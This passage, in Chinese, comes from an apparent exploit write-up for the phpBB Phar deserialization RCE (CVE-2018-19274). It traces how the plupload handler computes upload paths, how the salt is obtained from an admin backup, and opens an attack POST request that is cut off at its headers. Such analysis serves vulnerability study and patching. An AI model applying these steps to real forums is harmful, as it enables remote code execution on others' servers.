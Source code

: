 此时已经可以触发反序列化，还需上传包含利用链的恶意附件。

### 上传恶意附件

上传位置为前台发帖附件处:

![11.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId37.png)

处理文件上传的关键函数，以及函数调用栈：

文件位置：`phpBB3/phpbb/plupload/plupload.php`

![12.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId38.png)

在这里函数handle\_upload可以实现多个`chunk`处理。`$this->request->variable`函数根据键名从请求中获取值，首先获取`chunks`的值，并判断`chunk`是否小于2，如果小于就直接返回，如果大于就开始进行多`chunk`处理。

然后进入关键的`temporary_filepath`函数：

![13.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId39.png)

这个就是计算上传文件路径的函数，`$this->temporary_directory`可知为`./files/plupload`，`$file_name`可控，`\phpbb\files\filespec::get_extension($file_name)`获取文件的后缀同样可控，比较麻烦的是`$this->config['plupload_salt']`存在于数据库中，但可以在管理面板中通过备份进行获取。

![14.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId40.png)

`plupload_salt`如下

![15.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId41.png)

此时已经完全可以计算路径

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip

然后进入函数进行文件写入

![16.png](./resource/(CVE-2018-19274)PhpBBPhar反序列化远程代码漏洞/media/rId42.png)

中途会产生一个临时文件，但后面会删除，最后文件名还会增加`.part`后缀。

    ./files/plupload/c2f830acec21b6d3a45ff0f5b3f35273_5de5caf862ea58bbb27aff231f06c7f3zip.part

攻击数据包如下：

    POST /phpBB3/posting.php?mode=post&f=2&sid=a3f8b226bd4ad508d8838284c0cfc332 HTTP/1.1
    Host: www.0-sec.org
    Content-Length: 1909
    Origin: http://bugtest.com
    x-requested-with: XMLHttpRequest
    x-phpbb-using-plupload: 1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.75 Safari/537.36
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryuHMhmTMPyBMwbiEg
    Accept: */*
    Referer: http://bugtest.com/phpBB3/posting.php?mode=post&f=2&sid=52c63bf06fdeaef60de9b8fba1de97ad
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
